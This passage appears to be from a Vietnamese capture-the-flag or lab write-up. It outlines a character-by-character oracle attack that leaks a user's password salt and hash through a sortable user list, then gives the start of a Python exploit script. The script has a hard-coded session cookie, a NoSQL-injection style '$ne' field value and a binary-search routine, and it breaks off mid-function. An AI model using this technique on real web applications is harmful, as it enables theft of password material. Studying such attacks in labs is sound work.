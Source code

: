 #### Flow Brute-force từng ký tự salt hoặc hash
1. Brute từng ký tự một (dump)
→ Gọi test_char() để tìm từng ký tự tiếp theo.
2. Tìm ký tự bằng binary search (test_char)
→ Gán giá trị tạm cho Quan1 (poke()).
→ Gửi request GET /users?sort=... → xem ai đứng đầu (top()).
→ Nếu quan đứng trước Dat2Phit → đúng hướng.
3. Ghép ký tự lại thành salt/hash
→ Sau khi xong, cộng 1 vào ký tự cuối → dùng cho tấn công khác.
4. In kết quả

>Script leak salt và hash:
```python=1
#!/usr/bin/env python3
import requests
import string
import time
import argparse

# Configuration
TARGET = "172.27.128.1:8888"
SESSION_COOKIE = "eyJmbGFzaCI6e30sInBhc3Nwb3J0Ijp7InVzZXIiOiJRdWFuMSJ9fQ=="
SESSION_SIG = "2KgWPXeaMBljgPtwe7H_HgbzH1o"
EDIT_PATH = f"http://{TARGET}/user/Quan1/edit"
CHARS = string.digits + string.ascii_lowercase

request_headers = {
    'Cookie': f'session={SESSION_COOKIE}; session.sig={SESSION_SIG}',
    'Content-Type': 'application/x-www-form-urlencoded'
}

def update_field(value, field_type):
    """Update user's field value in database"""
    payload = {
        'hash': (f"{value}", "secret[$ne]=null")[field_type == 'salt'],
        'salt': (f"{value}", "secret[$ne]=null")[field_type == 'hash']
    }[field_type]
    
    try:
        resp = requests.post(
            EDIT_PATH,
            headers=request_headers,
            data=f"{field_type}={payload}",
            timeout=5
        )
        return resp.status_code == 204
    except requests.RequestException:
        return False

def get_leader(field):
    """Fetch top user from sorted list by target field"""
    leaderboard_url = f"http://{TARGET}/users?limit=1&sort={field}"
    try:
        resp = requests.get(leaderboard_url, headers=request_headers, timeout=5)
        return 'Quan1' if 'Dat2Phit' not in resp.text else 'Dat2Phit'
    except requests.RequestException:
        return None

def find_next_char(current, field):
    """Binary search for next character in sequence"""
    low, high = 0, len(CHARS) - 1
    result_idx = -1

    while low <= high:
```